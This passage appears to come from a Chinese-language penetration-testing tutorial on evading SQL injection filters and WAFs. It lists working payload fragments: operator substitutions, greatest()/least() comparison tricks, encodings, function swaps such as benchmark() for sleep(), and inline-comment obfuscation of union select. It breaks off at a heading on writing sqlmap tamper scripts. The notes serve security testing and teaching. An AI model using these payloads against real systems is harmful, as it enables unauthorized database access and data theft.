 ###### ④逻辑判断符被过滤

```sql
#1. 等于号(=)绕过
	①1' or 1=1  =>  1' or 1<>1
	②1' or 1=1  =>  1' or 1 like 1a
#2. 单个比较符的绕过
	#1. sqlmap可以使用between脚本，用greatest()返回给定表达式中最大值，least()返回给定表达式中最小值
		select * from users where id=1 and ascii(substr(user(),1,1))>100
		=> select * from users where id=1 and greatest(ascii(substr(user(),1,1)),100)=100
	#2. 使用字符编码
		a. 实体编码   < => &lt;   > =>  &gt;
		b. ASCII码	< => %3C	> =>  %3E 
		c. Unicode编码	< => \u003C   > =>  \u003E
	#3. 使用替代函数
		<  => CHAR(60)   >  =>  CHAR(62)
```

###### ⑤or and xor not绕过

```sql
#1. 使用逻辑判断符替代
	and  =>  &&
    or   =>  ||
    xor  =>  |
    not  =>  !
#2. 使用内联注释
	/*!and*/、/*!%23/*%0aand*/
```

###### ⑥函数过滤

```sql
1. sleep()	=> benchmark(10000000,md5(1))
2. ascii()  =>  ord()
3.  group_concat()	=>  concat_ws()
		例如：select group_concat(1,' -- ',1,' -- ',1)  => select concat_ws(' -- ',1,1,1)
4. substr()  =>  mid()、substring()、left()、right()
```

###### ⑦常见绕过方式

```sql
1. 绕过关键字检测
    a. user() --> user/*//--//*/()  或  database/*%!a*/()
    b. from  -->  /*!%23/*%0aform*/
    c. 大小写替换
    d. 重复关键字
2. 绕过2个及以上检测语句
union select  --> union/*//--/*/select
union select 1,2,3 -->   union /*!--+/*%0aselect/*!1,2,*/ 3
```

#### (3). 编写tamper

##### a. 检测WAF种类
